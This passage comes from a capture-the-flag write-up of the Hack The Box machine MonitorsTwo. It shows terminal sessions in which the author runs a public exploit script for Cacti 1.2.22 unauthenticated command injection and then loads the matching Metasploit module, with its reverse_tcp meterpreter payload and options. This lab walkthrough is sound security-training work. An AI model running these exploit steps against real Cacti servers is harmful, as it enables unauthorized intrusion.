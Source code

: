                                                                                                                                                                                                              
    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.211 - MonitorsTwo (lin)/attack/expl]
    └─$ mv 51166 51166.py
                                                                                                                                                                                                             
    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.211 - MonitorsTwo (lin)/attack/expl]
    └─$ ls -la
    total 12
    drwxr-xr-x 2 in7rud3r in7rud3r 4096 May 14 15:52 .
    drwxr-xr-x 3 in7rud3r in7rud3r 4096 May 14 15:51 ..
    -rw-r--r-- 1 in7rud3r in7rud3r 2864 May 14 15:52 51166.py
                                                                                                                                                                                                             
    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.211 - MonitorsTwo (lin)/attack/expl]
    └─$ python3 51166.py                                            
    usage: 51166.py [-h] [-u URL] -p REMOTE_PORT -i REMOTE_IP
    51166.py: error: the following arguments are required: -p/--remote_port, -i/--remote_ip
    

The script doesn't seem to work, failing. I tried to reproduce the injection manually, but I get an "_unauthorized_" message, even though the returned http code is **_200_**.  
Let's go ahead. Another link seems to suggest that there is a module on the **metasploit framework**.

[Cacti 1.2.22 unauthenticated command injection](https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/?ref=secjuice.com)

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.211 - MonitorsTwo (lin)/attack/expl]
    └─$ msfconsole       
                                                      
         ,           ,
        /             \                                                                                                                                                                                      
       ((__---,,,---__))                                                                                                                                                                                     
          (_) O O (_)_________                                                                                                                                                                               
             \ _ /            |\                                                                                                                                                                             
              o_o \   M S F   | \                                                                                                                                                                            
                   \   _____  |  *                                                                                                                                                                           
                    |||   WW|||                                                                                                                                                                              
                    |||     |||                                                                                                                                                                              
                                                                                                                                                                                                             
    
           =[ metasploit v6.3.14-dev                          ]
    + -- --=[ 2311 exploits - 1206 auxiliary - 412 post       ]
    + -- --=[ 975 payloads - 46 encoders - 11 nops            ]
    + -- --=[ 9 evasion                                       ]
    
    Metasploit tip: You can upgrade a shell to a Meterpreter 
    session on many platforms using sessions -u 
    <session_id>                                                                                                                                                                                             
    Metasploit Documentation: https://docs.metasploit.com/
    
    msf6 > use exploit/linux/http/cacti_unauthenticated_cmd_injection
    [*] Using configured payload linux/x86/meterpreter/reverse_tcp
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > options
    
    Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):
    
       Name                Current Setting  Required  Description
       ----                ---------------  --------  -----------
       HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
       LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
       Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                               yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
       RPORT               8080             yes       The target port (TCP)
       SSL                 false            no        Negotiate SSL/TLS for outgoing connections